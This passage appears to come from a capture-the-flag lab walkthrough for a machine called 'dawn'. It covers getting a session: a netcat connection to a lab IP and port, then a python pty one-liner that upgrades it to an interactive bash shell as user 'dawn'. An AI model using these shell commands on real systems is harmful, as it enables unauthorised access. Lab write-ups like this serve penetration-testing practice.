

4.2 Get a session
Go to the browser and check the “management.log” file.
Do the same as in “
Enumeraiton directory
” point d to e.
Output:

e) Get a session on the Victim Machine.
We use the python one-liner to convert this into a proper shell.
$ nc 192.168.12.33 1234
$ python -c
'import pty;pty.spawn("/bin/bash")'
Output:
dawn@dawn:~$
We got a “dawn” user shell.
Index